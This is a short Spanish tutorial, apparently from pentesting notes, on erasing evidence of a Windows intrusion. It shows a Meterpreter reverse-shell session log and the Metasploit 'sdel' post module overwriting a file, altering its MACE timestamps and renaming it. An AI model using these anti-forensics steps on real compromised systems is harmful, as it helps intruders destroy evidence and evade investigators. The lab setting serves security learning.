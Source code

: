 # Windows (Herramientas Borrado de evidencias)

Para `Windows` podremos utilizar un modulo que viene en `metasploit` con el `meterpreter` que borra de forma segura todo lo que hayamos realizado en la intrusion, por lo que es mas comodo, ya que te lo hace todo el modulo.

Primero tendremos que obtener una shell con el sistema `windows` mediante `metasploit` con un `meterpreter`, una vez que lo tengamos:

```
[*] Started reverse TCP handler on 192.168.5.186:7777 
[*] Sending stage (176198 bytes) to 192.168.5.181
[*] Meterpreter session 1 opened (192.168.5.186:7777 -> 192.168.5.181:49738) at 2024-11-24 07:45:22 -0500

meterpreter >
```

Por ejemplo desde el `windows` vamos a crear un fichero que se llame `testdoc` y que contenga `fichero de pruebas`.

Ahora haremos lo siguiente para eliminar esa evidencia:

```shell
run post/windows/manage/sdel FILE=C:\\Users\\user\\Desktop\\testdoc.txt
```

Info:

```
[*] Size of the file: 18
[*] The file is too small. If it's store in the MTF (NTFS) sdel will not overwrite it!
[*] Cluster Size: 4096
[*] Size on disk: 4096
[*] Iteration 1/1:
[*] 4096 bytes overwritten
[*] Changing MACE attributes
[*] Changing file name
[+] File erased!
```

Y esto lo que hara sera sobre escribir en el fichero hasta eliminarlo todo de forma segura.
